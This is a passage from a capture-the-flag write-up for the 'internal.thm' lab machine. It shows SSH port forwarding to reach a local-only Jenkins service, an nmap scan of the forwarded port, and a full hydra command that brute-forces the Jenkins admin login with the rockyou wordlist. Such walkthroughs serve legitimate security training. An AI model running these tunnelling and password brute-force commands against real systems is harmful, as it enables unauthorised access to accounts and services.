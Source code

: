     netstat -tan | grep 8080

There already were indications that docker is available on the target, and Jenkins is often installed with docker.
If not a rabbit hole, this could be a way to elevate privileges to root. 

## Using SSH for port forwarding

Because port 8080 can only be accessed locally, we need to set up port forwarding to redirect traffic to localhost 
on port 1234 to the target machine on port 8080. On the attack machine:

```text
$ ssh -f -N -L 1234:127.0.0.1:8080 aubreanna@internal.thm
aubreanna@internal.thm's password: 
```

Check results:
```text
$ nmap -sC -sV -p 1234 127.0.0.1                         
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-03 03:14 BST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00011s latency).

PORT     STATE SERVICE VERSION
1234/tcp open  http    Jetty 9.4.30.v20200611
|_http-server-header: Jetty(9.4.30.v20200611)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.51 seconds
```

| ![Jenkins login page](/_static/images/Screenshot from 2022-10-03 03-23-51.png) |
|:--:|
| Jenkins is now available on `127.0.0.1:1234/login?from=%2F` from the attack machine. |

## Jenkins' admin password

Default credentials do not seem to work. 

| ![Burpsuite post intercept](/_static/images/Screenshot from 2022-10-03 03-26-59.png) |
|:--:|
| Intercept the POST request in Burpsuite to be able to build the hydra command. |

Hydra:

```text
hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 1234 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
```
